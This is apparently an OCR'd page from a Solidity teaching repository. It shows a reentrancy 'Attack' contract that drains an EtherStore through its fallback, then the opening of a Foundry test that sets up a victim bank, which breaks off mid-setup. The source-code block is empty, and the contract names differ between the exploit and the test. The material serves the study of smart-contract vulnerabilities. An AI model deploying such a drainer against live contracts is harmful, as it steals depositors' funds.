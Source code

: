 ```solidity
```
## Exploit Contract
```
contract Attack {
    EtherStore public etherStore;
    uint256 public constant AMOUNT = 1 ether;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= AMOUNT) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= AMOUNT);
        etherStore.deposit{value: AMOUNT}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}

```

## Test Contract

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.24;

import {Test} from "forge-std/Test.sol";
import {EthBank} from "../src/ReentrancyEthBank.sol";
import {EthBankExploit} from "../src/ReentrancyExploit.sol";

contract EthBankExploitTest is Test {
    address private constant alice = address(1);
    address private constant bob = address(2);
    address private constant attacker = address(3);
    EthBank private bank;
    EthBankExploit private exploit;

    function setUp() public {
        bank = new EthBank();

        deal(alice, 1e18);
        vm.prank(alice);
        bank.deposit{value: 1e18}();

        deal(bob, 1e18);
        vm.prank(bob);
        bank.deposit{value: 1e18}();

        deal(attacker, 1e18);
        exploit = new EthBankExploit(address(bank));
```